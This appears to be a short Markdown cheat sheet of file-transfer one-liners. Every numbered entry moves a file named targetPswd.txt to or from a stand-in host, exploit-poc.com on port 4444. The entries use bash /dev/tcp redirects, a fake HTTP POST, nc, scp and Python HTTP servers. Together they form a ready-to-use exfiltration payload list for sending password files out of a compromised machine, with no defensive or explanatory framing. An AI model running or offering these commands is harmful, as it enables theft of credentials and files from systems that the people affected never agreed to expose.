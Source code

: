 ## test data info
```
Host: exploit-poc.com
port:4444
fileName:targetPswd.txt
test str:{"k":"=this is test&","xx":"=999"}
```

## File_transfer
#### 0
```

    bash -c 'echo -e "POST / HTTP/0.9

$(<targetPswd.txt)" > /dev/tcp/exploit-poc.com/4444'
    
```

#### 1
```
 
    bash -c 'cat targetPswd.txt > /dev/tcp/exploit-poc.com/4444'
    
```

#### 2
```
bash -c 'cat < /dev/tcp/exploit-poc.com/4444 > targetPswd.txt'
```

#### 3
```
nc exploit-poc.com 4444 < targetPswd.txt
```

#### 4
```
python3 -m http.server 4444
```

#### 5
```
python -m SimpleHTTPServer 4444
```

#### 6
```
scp targetPswd.txt username@exploit-poc.com:~/destination -P 4444
```

#### 7
```
scp user@exploit-poc.com:~/path_to_file file_saved -P 4444
```
